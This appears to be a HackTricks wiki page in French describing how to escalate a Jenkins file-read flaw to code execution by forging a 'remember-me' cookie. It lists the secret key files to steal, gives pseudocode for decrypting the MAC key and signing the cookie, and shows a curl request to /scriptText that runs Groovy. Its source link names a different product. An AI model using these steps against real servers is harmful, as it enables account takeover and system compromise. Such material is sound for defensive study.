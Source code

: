 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Dans cet article de blog, il est possible de trouver un excellent moyen de transformer une vulnérabilité d'inclusion de fichiers locaux dans Jenkins en RCE : [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ceci est un résumé créé par IA de la partie du post où la création d'un cookie arbitraire est exploitée pour obtenir RCE en abusant d'une lecture de fichier local jusqu'à ce que j'ai le temps de créer un résumé moi-même :

### Prérequis d'attaque

* **Exigence de fonctionnalité :** "Se souvenir de moi" doit être activé (paramètre par défaut).
* **Niveaux d'accès :** L'attaquant a besoin de permissions Globales/Lecture.
* **Accès secret :** Capacité à lire à la fois le contenu binaire et textuel de fichiers clés.

### Processus d'exploitation détaillé

#### Étape 1 : Collecte de données

**Récupération d'informations utilisateur**

* Accéder à la configuration utilisateur et aux secrets depuis `$JENKINS_HOME/users/*.xml` pour chaque utilisateur afin de rassembler :
* **Nom d'utilisateur**
* **Graine utilisateur**
* **Horodatage**
* **Hash de mot de passe**

**Extraction de clé secrète**

* Extraire les clés cryptographiques utilisées pour signer le cookie :
* **Clé secrète :** `$JENKINS_HOME/secret.key`
* **Clé maître :** `$JENKINS_HOME/secrets/master.key`
* **Fichier de clé MAC :** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Étape 2 : Forgement de cookie

**Préparation du jeton**

*   **Calculer le temps d'expiration du jeton :**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Ajoute une heure au temps actuel
```
{% endcode %}
*   **Concaténer les données pour le jeton :**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Déchiffrement de la clé MAC**

*   **Déchiffrer le fichier de clé MAC :**

```javascript
key = toAes128Key(masterKey)  // Convertir la clé maître en format de clé AES128
decrypted = AES.decrypt(macFile, key)  // Déchiffrer le fichier .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcul de la signature**

*   **Calculer HMAC SHA256 :**

```javascript
mac = HmacSHA256(token, macKey)  // Calculer HMAC en utilisant le jeton et la clé MAC
tokenSignature = bytesToHexString(mac)  // Convertir la MAC en chaîne hexadécimale
```

**Encodage du cookie**

*   **Générer le cookie final :**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Encoder en base64 les données du cookie
```
{% endcode %}

#### Étape 3 : Exécution de code

**Authentification de session**

* **Récupérer les jetons CSRF et de session :**
* Faire une requête à `/crumbIssuer/api/json` pour obtenir `Jenkins-Crumb`.
* Capturer `JSESSIONID` de la réponse, qui sera utilisé en conjonction avec le cookie "se souvenir de moi".

**Requête d'exécution de commande**

*   **Envoyer une requête POST avec un script Groovy :**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Le script Groovy peut être utilisé pour exécuter des commandes au niveau système ou d'autres opérations dans l'environnement Jenkins.

L'exemple de commande curl fourni démontre comment faire une requête à Jenkins avec les en-têtes et cookies nécessaires pour exécuter du code arbitraire en toute sécurité.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
